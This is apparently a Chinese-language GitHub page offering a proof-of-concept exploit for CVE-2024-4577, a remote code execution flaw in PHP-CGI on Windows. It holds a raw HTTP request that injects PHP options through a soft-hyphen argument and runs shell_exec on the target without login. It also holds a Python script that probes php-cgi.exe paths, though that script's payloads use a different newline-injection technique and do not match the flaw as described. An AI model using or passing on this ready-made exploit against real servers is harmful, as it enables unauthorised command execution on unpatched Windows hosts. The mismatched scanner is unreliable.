 ## PHP-CGI-Windows平台远程代码执行漏洞(CVE-2024-4577)

PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当 PHP-CGI 运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过 CVE-2012-1823 补丁，从而可在无需登陆的情况下执行任意PHP代码。

## poc

```
POST /index.php?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
 
<?php echo shell_exec("dir"); ?>
```

```python
import requests

def test_cgi_vulnerability(url):
    payloads = [
        '/cgi-bin/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20"test";?>',
        '/php-cgi/php-cgi.exe?arg=%0aContent-Type:%20text/plain%0a%0a<?php%20echo%20"test";?>'
    ]
    
    for payload in payloads:
        test_url = f"{url}{payload}"
        try:
            response = requests.get(test_url)
            if "test" in response.text:
                print(f"Potential vulnerability detected at: {test_url}")
            else:
                print(f"No vulnerability detected at: {test_url}")
        except Exception as e:
            print(f"Error testing {test_url}: {e}")

if __name__ == "__main__":
    url = input("Enter the URL to test (e.g., http://example.com): ")
    test_cgi_vulnerability(url)
```

